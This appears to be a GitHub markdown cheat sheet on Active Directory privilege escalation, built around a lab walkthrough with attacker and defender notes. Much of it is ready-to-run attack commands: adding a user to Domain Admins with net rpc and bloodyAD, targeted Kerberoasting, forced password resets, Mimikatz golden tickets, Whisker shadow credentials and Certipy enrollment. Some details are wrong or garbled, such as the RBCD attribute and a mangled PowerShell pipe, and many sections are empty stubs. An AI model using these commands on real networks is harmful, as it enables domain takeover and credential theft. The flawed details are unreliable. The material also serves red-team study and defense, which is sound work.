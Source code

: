 <details>
<summary> DACL/ACL-Based Escalation (GenericAll / WriteDACL / WriteProperty)</summary>
 <br> 
In Active Directory (AD), a DACL (Discretionary Access Control List) is a component of an object’s security descriptor. It specifies which users or groups are allowed (or denied) access to the object and what actions they are permitted to perform. It essentially controls who can do what to an object. Such as a user account, computer, group, or any other directory object.
If you (or a compromised account) have ACL rights like GenericAll, WriteDACL, or WriteProperty over another AD object (user, group, OU, computer), you can modify permissions or credentials to escalate privileges 
Generic ALL Right
In Active Directory, permissions and privileges define what actions an entity (user, group, or computer) can perform on another object. The “Generic ALL” privilege is one of the most powerful in AD because it grants complete control over the target object. This means that the user or group with this privilege can:

Modify any attribute of the object
Reset passwords
Add or remove members from groups
Delegate further control to other users
Delete the object altogether
Because of its extensive reach, an attacker who gains “Generic ALL” privileges on sensitive objects (like privileged groups or service accounts) can essentially gain domain dominance.

Exploiting “Generic ALL” Privilege
Here’s how an attacker can leverage the “Generic ALL” privilege to compromise Active Directory:

Identifying Targets with “Generic ALL” Privilege
The first step is to identify objects where the attacker has this privilege. This can be done using tools like BloodHound or PowerView, which map out Active Directory and show privilege relationships. Once identified, the attacker can choose their target based on the potential impact (e.g., a Domain Admin account).
Resetting Passwords
If the “Generic ALL” privilege is applied to a user account, the attacker can reset the account’s password. This is particularly devastating if the account is for a privileged user, such as a Domain Administrator. After resetting the password, the attacker can log in as that user and gain full control over the domain.
Modifying Group Membership
If the “Generic ALL” privilege is applied to a group, the attacker can add themselves to a high-privilege group, like Domain Admins or Enterprise Admins. This grants them the privileges of those groups, effectively giving them control over the entire domain.
Abusing Delegated Control
With the “Generic ALL” privilege, the attacker can delegate control of the target object to another user or group. This allows them to grant privileges to themselves or other malicious users without raising suspicion immediately.
Deleting or Modifying Objects
In extreme cases, an attacker with “Generic ALL” can delete critical objects, such as service accounts or privileged users, causing operational disruptions or creating avenues for further exploitation.
🔍 Detection

Use BloodHound to detect privileged edges (WriteDacl, GenericAll).

Run PowerView:

powershell

    Get-ObjectAcl -SamAccountName TargetUser -ResolveGUIDs
Filter for rights: GenericAll, WriteDacl, etc. 

⚙️ Exploitation
Use PowerView/Powermad:

powershell

    Add-DomainObjectAcl -TargetIdentity "Domain Admins" -PrincipalIdentity "LowPrivUser" -Rights All
Then add yourself to Domain Admins or reset passwords.
Exploitation Phase I – User Own Generic All Right for Group
Compromised User: Komal

Target Account: Domain Admin Group

Now that the lab is set up, let’s walk through how an attacker (acting as Komal) can abuse the Generic ALL privilege.

Assuming the Red Teamer knows the credential for Komal Users as a Standard Domain Users and would like to enumerate the other Domain users & Admin members with the help of “net-rpc” Samba command line Utility.

net rpc user -U ignite.local/komal%'Password@1' -S 192.168.1.8
net rpc group members "Domain Admins" -U ignite.local/komal%'Password@1' -S 192.168.1.8
After executing above command its has been concluded that the Administrator users is only the single member of the Admin group. Unfortunately, the tester is doesn’t know the credentials of administrator.



Bloodhound -Hunting for Weak Permission
Use BloodHound to Confirm Privileges: You can use BloodHound to verify that Komal has the Generic ALL right on the Domain Admins group.

bloodhound-python -u komal -p Password@1 -ns 192.168.1.8 -d ignite.local -c All
Generic ALL Active Directory Abuse

From the graphical representation of Bloodhound, the tester would like to identify the outbound object control for selected user where the first degree of object control value is equal to 1.



Thus it has shown the Komal User has Generic ALL privilege to Domain Admin group and provided steps for exploitation to be proceed.

Generic ALL Active Directory Abuse

Method for Exploitation – Account Manipulation (T1098)
1. Linux Net RPC – Samba
The tester can abuse this permission by Komal User into Domain Admin group and list the domain admin members to ensure that Komal Users becomes Domain Admin.

net rpc group addmem "Domain Admins" "komal" -U ignite.local/komal%'Password@1' -S 192.168.1.8


2. Linux Bloody AD
bloodyAD --host "192.168.1.8" -d "ignite.local" -u "komal" -p "Password@1" add groupMember "Domain Admins" "komal"


Thus, from the user property we can see Komal user has become a member of domain admin.

Generic ALL Active Directory Abuse

3. Windows Net command
net group "domain admins" komal /add /domain


Exploitation Phase II – User’s own generic Right for another user
To set up a lab environment where the user Nishant has Generic ALL rights over the user Vipin, you’ll need to follow several steps. This process involves configuring Active Directory (AD) permissions so that Nishant can manipulate attributes of the Vipin account.

Step 1: Create Two AD user accounts
net user vipin Password@1 /add /domain
net user nishant Password@1 /add /domain
                

Step 2: Assign Generic ALL Permissions
Open Active Directory Users and Computers.
Navigate to the Vipin user account.
Right-click on Vipin, select Properties.
                Generic ALL Active Directory Abuse

Go to the Security tab.
Click Advanced and then Add.
                

In the “Enter the object name to select” box, type Nishant and click Check Names.
After adding Nishant, set the permissions:
Check Generic All in the permissions list (you may need to select Full Control to encompass all rights).
                

Ensure Applies to is set to This object only.
                Generic ALL Active Directory Abuse

Bloodhound -Hunting for Weak Permissions
Hunting for First Degree objection Control for Nishant Users as we did in previous steps

bloodhound-python -u nishant -p Password@1 -ns 192.168.1.8 -d ignite.local -c All


From the graph, it can be observed that the Nishant user owns generic all privileges on Vipin user

Generic ALL Active Directory Abuse

Moreover, Bloodhound also helps the pentest to define the possible attack from the user account nishant, this user can perform domain attack such as keroasting and shadow credentials



Multiple Methods for Exploitation
1. T1558.003 – Kerberoasting
1.1  Linux Python Script – TargetedKerberoast
Compromised User: Nishant: Password@123

Target User: Vipin

Kerberoasting is an attack technique that targets service accounts in Active Directory environments, where an attacker with Generic ALL permissions on a user can exploit the ability to request service tickets (TGS). By requesting TGS for service accounts, the attacker can obtain encrypted tickets that include the service account’s password hash. Since these tickets can be extracted and then offline cracked, the attacker can potentially gain access to the service account’s credentials. The attack leverages the fact that service accounts typically have elevated privileges, allowing the attacker to escalate their own access within the network once the password is cracked. This exploitation is particularly effective in environments where weak or easily guessable passwords are used for service accounts.

Cloning the Targeted Kerberoast Tool
To perform this attack, first, clone the targetedKerberoast repository from GitHub using the following command:

git clone https://github.com/ShutdownRepo/targetedKerberoast.git
Generic ALL Active Directory Abuse

./targetedKerberoast.py --dc-ip '192.168.1.8' -v -d 'ignite.local' -u 'nishant' -p 'Password@1'
As we have seen during the lab setup, the vipin user was added as a domain user account, which does not have any associated SPN. The Python script has modified the attribute of vipin user to set the SPN name and then dump Krbtgs hash that can be brute-forced offline. Moreover, the script performs a clear track step by removing the SPN well live from the user attribute.

This type of attack is ideally best when the attacker is not willing to change the password for the target user <Vipin in our case>, even generic all privilege is enabled for the compromised user. Yes, this step is less noisy than changing the password of any user.



Further, with the help of John the Ripper and a dictionary such as Rock You can help the attacker to brute force the weak password.

Generic ALL Active Directory Abuse

1.2 Windows PowerShell Script-PowerView
To perform Kerberoasting using PowerView on a Windows machine, you can leverage PowerView’s ability to enumerate Active Directory service accounts that have Service Principal Names (SPNs). These SPNs can be requested to obtain service tickets (TGS), which can then be cracked offline to reveal the service account’s credentials. Here’s a brief overview of the steps:

Make sur that the target account has no SPN and then Set the SPN to obtain the KerbTGS hash
Get-DomainUser 'vipin' | Select serviceprincipalname
Set-DomainObject -Identity 'vipin' -Set @{serviceprincipalname='nonexistent/hackingarticles'}
$User = Get-DomainUser 'vipin'
$User | Get-DomainSPNTicket | f1


Cracking TGS hash using Rockyou.txt with the help of Hashcat Tool.

Generic ALL Active Directory Abuse

2.     T1110.001 – Change Password
2.1 Linux Net RPC – Samba
net rpc password vipin 'Password@987' -U ignite.local/nishant%'Password@1' -S 192.168.1.8


2.2 Linux Net RPC – BloodAD
bloodyAD --host "192.168.1.8" -d "ignite.local" -u "nishant" -p "Password@1" set password "vipin" "Password@9876"
Generic ALL Active Directory Abuse

2.3 Linux Net RPC –Rpcclient
rpcclient -U ignite.local/nishant 192.168.1.8
setuserinfo vipin 23 Ignite@987
Generic ALL Active Directory Abuse

2.4 Windows Net Utility
net user Vipin Password@1234 /domain


2.5 Windows PowerShell -Powerview
$SecPassword = ConvertTo-SecureString 'Password@987' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('ignite.localvipin', $SecPassword)
Generic ALL Active Directory Abuse

2.6 Windows PowerShell
$NewPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
Set-DomainUserPassword -Identity 'vipin' -AccountPassword $NewPassword

🛡️ Mitigation

Audit ACLs on sensitive objects (adminCount=1).

Use BloodHound to regularly review privileged rights.

Limit ACEs granting WriteDACL or GenericAll.
</details>
<details>
<summary>AdminSDHolder Abuse</summary>
 <br>  
The AdminSDHolder object enforces consistent ACLs on protected groups (like Domain Admins). If you can alter its ACL, the change propagates via SDProp to all members 

🔍 Detection
Search for AdminSDHolder ACLs:

powershell

    Get-ADUser -LDAPFilter "(AdminCount=1)" ...
    Get-ACL "AD:CN=AdminSDHolder,CN=System,DC=domain,DC=com"
⚙️ Exploitation

powershell

    Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,...' -PrincipalSamAccountName attacker -Rights All
You’ll gain long-term privileged membership.

🛡️ Mitigation

Restrict ACL modifications on AdminSDHolder.

Monitor event logs for changes (event IDs 4662, 4670).
</details>
<details>
<summary>Resource-Based Constrained Delegation (RBCD) Abuse</summary>
 <br> 

Control over a computer object plus delegation rights can allow you to impersonate users to services—escalating to SYSTEM or DC-level access via Kerberos ticket forging.

🔍 Detection
Use BloodHound to detect AllowedToDelegateTo paths. Query with:

powershell

    Get-ADComputer -Properties msDS-AllowedToDelegateTo
⚙️ Exploitation
Create a computer account (e.g. attacker$) and set delegation rights:

powershell

    Set-ADComputer target$ -Add @{msDS-AllowedToDelegateTo='attacker$'}
Then issue Kerberos tickets with Rubeus or Impacket.

🛡️ Mitigation

Limit delegation rights.

Audit msDS-AllowedToDelegateTo attributes.

Disable unconstrained delegation unless required.
</details>
<details>
<summary>Shadow Credentials</summary>
 <br> 

If you can write to the msDS-KeyCredentialLink attribute on an object, you can create a "shadow credential" (certificate) to authenticate as them via Kerberos PKINIT without needing passwords 
HADESS

🔍 Detection
Check write permissions on this attribute via BloodHound or PowerView:

powershell

    Get-ACL object | Select-Object rights
⚙️ Exploitation
Use Whisker.exe:

powershell

    Whisker.exe add /target:CompAccount$
Then obtain TGT via certificate-based authentication with Rubeus.

🛡️ Mitigation

Disable unnecessary write access to msDS-KeyCredentialLink.

Monitor certificate enrollment events.

Enforce Windows ≥2016 with Kerberos protections.
</details>
<details>
<summary>SID History Injection</summary>
 <br> 

If you can modify SIDHistory (or have KRBTGT hash), you can inject high-privilege SIDs into your account and forge golden tickets for domain admin access.

🔍 Detection
Check SIDHistory values via ADSI or BloodHound.

⚙️ Exploitation
Use Mimikatz:

powershell

    kerberos::golden /user:attacker /sid:<DA_SID> 
Forge TGT tickets to escalate.

🛡️ Mitigation

Monitor creation of unusual tickets or SIDHistory changes (Event ID 4720/4732).

Secure KRBTGT hash with frequent password resets.
</details>
<details>
<summary>Trust Exploitation / Foreign Security Principals Abuse</summary>
 <br>
 Trust Exploitation / Foreign Security Principals Abuse

In multi-domain or multi-forest environments, trust misconfigurations allow abused FSP entries from other realms to escalate via cross-domain ACLs.

🔍 Detection
BloodHound shows trust paths and unresolved SIDs.

⚙️ Exploitation
Add FSP SID from trusted domain into a privileged group using ACL editing.

🛡️ Mitigation

Enable SID filtering.

Validate cross-domain ACLs for resolved accounts only.
</details>
<details>
<summary>gMSA Password Disclosure</summary>
 <br>
 gMSA Password Disclosure

If you can read msDS-ManagedPassword, you can retrieve the machine account password of a Group Managed Service Account to impersonate it.

🔍 Detection
Check ACL on gMSA:

powershell

    Get-ADServiceAccount gmsa -Properties msDS-ManagedPassword
ConvertFrom-ADManagedPasswordBlob ...
⚙️ Exploitation
With ReadGMSAPassword rights, extract credentials via PowerShell (ConvertFrom-ADManagedPasswordBlob).

🛡️ Mitigation

Restrict read ACLs for these attributes.

Monitor gMSA password retrieval events.
</details>
<details>
<summary>Golden Ticket Forgery (KRBTGT compromise)</summary>
 <br>
If you can extract KRBTGT NTLM hash (e.g. via DCSync), you can issue valid TGTs for any domain user—including Domain Admins—without contacting KDC.

🔍 Detection
Monitor long-lifetime TGT events (Event ID 4768) or hash extraction attempts.

⚙️ Exploitation
Use Mimikatz:

powershell

    kerberos::golden /user:Administrator /krbtgt:<hash> /domain:domain.com
Inject ticket with /ptt.

🛡️ Mitigation

Periodically reset KRBTGT twice.

Monitor DCSync and TGT creation anomalies.
</details>
<details>
<summary>Kerberoasting</summary>
<br>
</details>

<details>
<summary>AS-REP Roasting</summary>
<br>
</details>

<details>
<summary>Silver Ticket (Forged TGS)</summary>
<br>
</details>


<details>
<summary>DCSync / Replication Attacks</summary>
<br>
</details>

<details>
<summary>Unconstrained Delegation Abuse</summary>
<br>
</details>

<details>
<summary>Constrained Delegation Abuse</summary>
<br>
</details>





<details>
<summary>DACL/ACL-Based Escalation via DCOM / WMI / RDP</summary>
<br>
</details>

<details>
<summary>Group Policy Preferences (GPP) Passwords</summary>
<br>
</details>


<details>
<summary>Printer Bug / NTLM Relay via Print Spooler</summary>
<br>
</details>

<details>
<summary>Pass-the-Hash</summary>
<br>
</details>

<details>
<summary>Pass-the-Ticket</summary>
<br>
</details>

<details>
<summary>Overpass-the-Hash</summary>
<br>
</details>

<details>
<summary>DCShadow Attack</summary>
<br>
</details>

<details>
<summary>LAPS Password Disclosure</summary>
<br>
</details>

<details>
<summary>Kerberos Key Distribution Center (KDC) Spoofing</summary>
<br>
</details>

<details>
<summary>Certificate Services Abuse (e.g., ESC1–ESC8)</summary>
<br>

Abusing Certificate Templates or CA permissions can allow low-privilege users to enroll certs for high-risk purposes (e.g. escrow, domain authentication), leading to full domain compromise 

🔍 Detection

Use certipy, bloodhound or certify to enumerate templates and CA ACLs.

Check for templates that allow enrollment to Authenticated Users.

⚙️ Exploitation
Certipy or PowerView:

powershell
Copy
Edit
Certipy find
Certipy enroll attacker -template vulnerableTemplate
Use resulting certificate to authenticate via PKINIT.

🛡️ Mitigation

Secure template ACLs (use principle of least privilege).

Require CA manager approval for templates.

Monitor certificate issuance logs.
</details>
